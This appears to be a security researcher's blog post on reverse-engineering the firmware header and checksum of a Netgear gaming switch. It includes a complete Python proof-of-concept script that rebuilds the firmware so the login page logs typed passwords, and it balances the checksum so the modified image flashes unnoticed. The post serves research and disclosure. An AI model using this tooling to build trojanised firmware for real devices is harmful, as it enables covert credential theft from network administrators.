



Published: June 12th, 2021
This blog post will detail how to craft custom firmware given a stock firmware image for the Netgear S8000 line of gaming switches. This switch is an 8-port gigabit managed switch that has a built in Web interface for management. We will take a stock firmware image available from the vendor, make modifications to it, successfully flash it to the device and have the device still work as intended with our additional capabilities.
I do not think of this as a vulnerability. The firmware flashing process requires authentication to flash new images, and it is my opinion firmware signing is probably outside the threat model of most SOHO equipment. At the very least, I do not believe the vendor can fix this issue with a software update. As such I am releasing this research without first contacting the vendor. I believe there are legimate uses for creating custom firmware beyond those that lend themselves to offensive security. I also believe without the proof of concept, there is no way for others to validate my findings. Also, I noticed during testing that this model of switch is not widely available through retailers anymore, so it may have been discontinued. In the end, it is the research process that is probably the most valuable here, so I am going to detail how I did this.
We are going to be looking at three versions of firmware:
1.7.1.01.7.0.71.7.0.61.7.1.0 is the latest firmware as of this writing. All the aforementioned firmware versions are available from the vendor website.The firmware is 0x15b2b4 (1422004) bytes in length. The first thing to note is in all firmware versions we are considering, the file size is constant.
Most firmware images have a header before the actual firmware image, and this firmware image is no different. The first 0x14 (20) bytes are the firmware header. How did we come to this conclusion though?
Let's look at the first 0x20 (32) bytes in the firmware images:
$ head -c 32 GS808E_V1.7.1.0.bin | xxd
00000000: 1592 6535 0015 b2a0 0000 06e5 06b8 ffd7 ..e5............
00000010: 3322 55ff 0210 1602 1009 8f96 2232 2202 3"U........."2".
Notice at offset 0x4 the binary data 0x0015b2a0. This is pretty close, but not exact, to the length of the firmware image. 0x15b2b4 - 0x15b2a0 is 0x14. Combine this with the knowledge that most firmware images include the binary data length in the firmware header, and we have identified the length field as well as the header size.
1.7.0.7:
$ head -c 32 GS808E_V1.7.0.7.bin | xxd
00000000: 1592 6535 0015 b2a0 0000 05e5 06a2 0be1 ..e5............
00000010: 3322 55ff 0210 1602 1009 8f96 2232 2202 3"U........."2".
1.7.0.6:
$ head -c 32 GS808E_V1.7.0.6.bin | xxd
00000000: 1592 6535 0015 b2a0 0000 0620 06a6 ae75 ..e5....... ...u
00000010: 3322 55ff 0210 1602 1009 8f96 2232 2202 3"U........."2".
What are the other fields though? Looking at the other firmware images, the first four bytes are always the same: 0x15926535 most likely this is the firmware magic number. Likewise the last four bytes of firmware header is constant across the firmware images: 0x332255ff. This may be some sort of trailer value to denote the end of the firmware header, but I am not sure. It has no impact on our analysis, so we'll ignore it henceforth.
Let's look at the double word value at 0xc - for each firmware version, the value is:
1.7.1.0 - 0x06b8ffd71.7.0.7 - 0x06a20be11.7.0.6 - 0x06a6ae75All of these values are clustered around the same value. I made the assumption that they are the checksum for the image. But how is the checksum calculated?
Usually in Netgear images the checksum is just the sum of all the bytes in the file other than the header. If we add all the bytes together for each byte in a firmware image, we get the following values per version:
1.7.1.0 - 0x06b8f3bb1.7.0.7 - 0x06a1fec41.7.0.6 - 0x06a6a0cfThe python checksum function:
def generate_checksum(data):
csum = 0
for b in data:
csum = csum + b
return csum
These values are close to, but not exact, to the firmware checksum. In the end I could not reconcile the difference. I made the assumption though the the values I generated and the values in the firmware header were related. I assumed that if I could make my modified images match the same value I calculated from the original data, I could pass the checksum. This turned out to be a true assumption.
Wanting to demonstrate security impact, I chose some to overwrite some JavaScript on the login page. The payload I chose logs the user-supplied password out to the JavaScript console when the user clicks the Log In button.

By default, the HTML returned for the Login page contains the following JavaScript code:
$(document).ready(function(){
transMultipleLang(document.body);
});
I decided I would overwrite this value with my payload:
loginBtn.onclick = function(e) { console.log(password.value); }
The original JavaScrpt is about 92 bytes long. To preserve the length of the payload string, I pad the difference between the payload and the original with \n (newline) characters. This results in a payload string of the same length as the original but is also valid JavaScript. Once successfully flashed, the target user does not notice the difference unless they have the browser developer console displayed.
After we have replaced the original string with the payload string, we need to "balance" the modified firmware image so that it matches the original calculated checksum (NOT the checksum in the firmware image header). I wrote a balancing algorithm that works for at least the three latest vendor-provided firmware images; it may work for others but I did not test them.
Python balancing function
def balance(data, cksum, idx):
print("Checksum to match: " + str(cksum))
checksum = generate_checksum(data)
while cksum != checksum:
diff = checksum - cksum
if diff >= 0:
if diff > 0xff:
data[idx] = 0x1
else:
data[idx] = abs(data[idx] - diff)
else:
if diff < -0xff:
data[idx] = 0xff
else:
data[idx] = 0xff + diff
idx = idx + 1
checksum = generate_checksum(data)
return data
Honestly, I coded this function mostly on intuition and, although it works, I assume there are better ways of doing this type of transformation that I am simply not aware of. I would love to hear from you if you have a more performant way of "balancing" the binary.
Now that we can balance the firmware image, we need to select very carefully where in the binary data it will do the balancing. I chose within a JSON string embedded in the binary:
0013b9a0: 2022 5468 6520 6d61 7869 6d75 6d20 6e75 "The maximum nu
0013b9b0: 6d62 6572 206f 6620 7365 7373 696f 6e73 mber of sessions
0013b9c0: 2068 6173 2062 6565 6e20 7265 6163 6865 has been reache
0013b9d0: 642e 2057 6169 7420 6120 6665 7720 6d69 d. Wait a few mi
0013b9e0: 6e75 7465 7320 616e 6420 7468 656e 2074 nutes and then t
0013b9f0: 7279 2061 6761 696e 2e22 3a20 7b0a 2020 ry again.": {.
I wrote this all into a python script that can take a vendor-supplied stock firmware image and turn it into a custom image. The proof of concept is provided here:
import sys
fname = sys.argv[1]
HEADER_SIZE = 0x14
def generate_checksum(data):
csum = 0
for b in data:
csum = csum + b
return csum
def balance(data, cksum, idx):
print("Checksum to match: " + str(cksum))
checksum = generate_checksum(data)
while cksum != checksum:
diff = checksum - cksum
if diff >= 0:
if diff > 0xff:
data[idx] = 0x1
else:
data[idx] = abs(data[idx] - diff)
else:
if diff < -0xff:
data[idx] = 0xff
else:
data[idx] = 0xff + diff
idx = idx + 1
checksum = generate_checksum(data)
return data
with open(fname, 'rb') as f:
to_overwrite = '"The maximum number of sessions has been reached. Wait a few minutes and then try again.":'
to_remove = """$(document).ready(function(){\n transMultipleLang(document.body);\n });\n """
payload = "loginBtn.onclick = function(e) { console.log(password.value); }\n"
payload_len = len(payload)
padding = len(to_remove) - payload_len
payload = payload.ljust(padding + payload_len, "\n")
data = f.read()
to_remove = bytearray(to_remove, encoding="utf8")
to_overwrite_idx = data.find(bytearray(to_overwrite, encoding='utf8')) + 1
to_replace_idx = data.find(to_remove)
if to_overwrite_idx < 0:
print("To Overwrite not found, exiting")
sys.exit(1)
if to_replace_idx < 0:
print("To Replace not found, exiting")
sys.exit(1)
payload = bytearray(payload, encoding="utf8")
ocsum = generate_checksum(data[HEADER_SIZE:])
original_len = len(data) - HEADER_SIZE
print("Original Checksum: 0x" + str(hex(ocsum)) + " | " + str(ocsum))
print("Original Length: 0x" + str(hex(original_len)) + " | " + str(original_len))
data = data.replace(to_remove, payload)
data = bytearray(data)
data = data[:HEADER_SIZE] + balance(data[HEADER_SIZE:], ocsum, to_overwrite_idx)
mcsum = generate_checksum(data[HEADER_SIZE:])
print("Balanced checksum: 0x" + str(hex(mcsum)) + " | " + str(mcsum))
modified_len = len(data) - HEADER_SIZE
print("Balanced Length: 0x" + str(hex(modified_len)) + " | " + str(modified_len))
if ocsum != mcsum:
print("Checksums don't match, won't flash.")
sys.exit(1)
if original_len != modified_len:
print("Lengths don't match, exiting...")
sys.exit(1)
with open(fname + ".modified.bin", 'wb') as fw:
fw.write(bytes(data))
Please forgive my messy python. The script does some checksum and length checking at the end and won't write out the modified firmware file if those conditions are not met.
Now that we have a firmware image, we can test flashing it to the device through the standard firmware upgrade process available in the web UI. The filename supplied must end in .bin, but other than that the filename is arbitrary. The script provided above creates a file based off the original firmware filename, and the outputed file ends in .modified.bin.
Now, when I was doing this work I repeatedly put my test device in a bad state. As you can imagine, trying to flash custom firmware can result in the device becoming non-functional. The way I got around this was I made a backup of the SPI NOR ROM by opening up the switch and attaching a clip to the chip. Using a bus pirate, I was able to dump the SPI ROM to a safe location. Then, when I messed up the firmware image and rendered the switch useless, I could use the bus pirate to write the original SPI ROM image back to the switch and thereby make it operational again.
After I flash my custom image, I see this when loading the login page:


I could not disassemble this firmware image in Ghidra for the life of me. With some help (thanks @ReverseICS!) I was able to determine that the primary processor is a 8051 MCU, but even then I couldn't get the binary to load in Ghidra properly. As mentioned above, the firmware image provided by the vendor is about 1.4MB in size; the SPI ROM was 4MB. There is additional code in the SPI ROM - it looks like it handles the booting of the device and then transferring control over to the vendor-supplied firmware. The board uses a Realtek RTL8370-GR which is a ethernet PHY, but also contains a 8051 MCU.